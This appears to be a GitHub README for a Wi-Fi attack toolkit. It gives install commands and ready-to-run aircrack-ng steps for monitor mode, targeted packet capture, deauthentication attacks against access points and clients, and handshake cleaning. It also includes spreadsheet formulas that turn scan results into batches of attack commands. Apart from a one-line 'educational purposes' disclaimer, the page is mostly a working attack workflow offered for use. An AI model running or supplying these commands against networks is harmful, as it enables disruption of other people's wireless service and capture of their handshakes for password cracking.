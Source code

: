 # Wi-Fi Toolkit

This repository contains a collection of shell scripts for performing various Wi-Fi related tasks.

## Requirements:

- Linux operating system
- airodump-ng and aireplay-ng tools (usually part of the aircrack-ng suite)
- Python 3

## Usage:

### Install
```bash
wget https://raw.githubusercontent.com/gznll/shell/main/wifi/{wifi_dump.sh,python_server.sh,death_wifi.sh}
```
### Check in
#### wlan0 status
```bash
iwconfig
```
#### Active wifi interface
```bash
iw dev
```
#### AP availeble list
```bash
iwlist wlan0 scanning | grep -i essid
```
### Get AP list
#### Kill services
```bash
airmon-ng check kill
```
#### wlan0 to monitor mode and get AP list in out-01.csv
```bash
airodump-ng wlan0 -w out
```
#### Basic commands
```bash
airodump-ng --bssid 11:22:33:44:55:66 --channel 2 wlan0 -w output
aireplay-ng --deauth 10 -a 11:22:33:44:55:66 wlan0 	
wpaclean out.cap in.cap
```
### Use in xls:

#### replace in text mode out-01.csv  [' ' > '' and ','>';']
#### Insert formula in Cell:

```sh
x	dump	death	clean
=VLOOKUP(A3,F:F,1,FALSE)	=CONCATENATE("airodump-ng --bssid ",A3," "," --channel ",D3," "," wlan0 -w ",N3)	=CONCATENATE("aireplay-ng --deauth 10 -a ",A3," ","wlan0")	=CONCATENATE("watch -n 1 wpaclean clean_",N3,".cap ",N3,"-01.cap")
```
```sh
x	dump	death	clean	sh
=ВПР(A3;F:F;1;ЛОЖЬ) 	=СЦЕПИТЬ("airodump-ng --bssid ";A3;" ";" --channel ";D3;" ";" wlan0 -w ";N3) 	=СЦЕПИТЬ("aireplay-ng --deauth 10 -a ";A3;" ";"wlan0") 	=СЦЕПИТЬ("watch -n 1 wpaclean clean_";N3;".cap ";N3;"-01.cap")	=СЦЕПИТЬ("echo airodump-ng --bssid ";A3;" --channel ";D3;" wlan0 -w ";N3;" > 1.sh && echo aireplay-ng --deauth 10 -a ";A3;" wlan0 > 2.sh && echo watch -n 1 wpaclean clean_";N3;".cap ";N3;"-01.cap > 3.sh && chmod +x *.sh")

```
### Reset wifi adapter to managed mode
```bash
sudo ip link set wlan0 down && sudo iw dev wlan0 set type managed && sudo ip link set wlan0 up && systemctl start NetworkManager
```


### Wi-Fi Dumping (wifi_dump.sh)

This script uses airodump-ng to capture Wi-Fi packets from a specific Access Point (AP).

#### Syntax:

```bash
./wifi_dump.sh MAC_ADDRESS CHANNEL [OUTPUT_FILE]
```
Arguments:
    MAC_ADDRESS: The MAC address of the target AP.
    CHANNEL: The channel the AP is operating on.
    OUTPUT_FILE: (Optional) The filename for the output capture file. Defaults to dump.cap.
    
```bash
./wifi_dump.sh 00:11:22:33:44:55 11 dump.cap
```
This will capture Wi-Fi packets from the AP with MAC address 00:11:22:33:44:55 on channel 11 and save them to dump.cap.

## Wi-Fi Deauth Attack (death_wifi.sh)
This script uses aireplay-ng to perform a deauthentication attack against a specific client connected to an AP.
#### Syntax:
```bash
./death_wifi.sh DEAUTH_COUNT MAC_ADDRESS [INTERFACE wlan0]
```
Arguments:
    DEAUTH_COUNT: The number of deauthentication packets to send.
    MAC_ADDRESS: The MAC address of the target client.
    INTERFACE: (Optional) The network interface to use. Defaults to wlan0.
```bash
./death_wifi.sh 10 00:11:22:33:44:55 wlan0
```
This will send 10 deauthentication packets to the client with MAC address 00:11:22:33:44:55 using the wlan0 interface.

Note: This script is intended for educational purposes only. Using it for malicious purposes is illegal and unethical.

## Python HTTP Server (python_server.sh)
This script starts a simple Python HTTP server on a specified port.
#### Syntax:
```bash
./python_server.sh [PORT 8000]
```
Arguments:

    PORT: (Optional) The port to listen on. Defaults to 8000.
```bash
./python_server.sh 8080
```
This will start the server on port 8080.

Note: Ensure that the current directory contains the files you want to serve.

## Disclaimer:

These scripts are provided "as is" without warranty of any kind. Use them at your own risk.


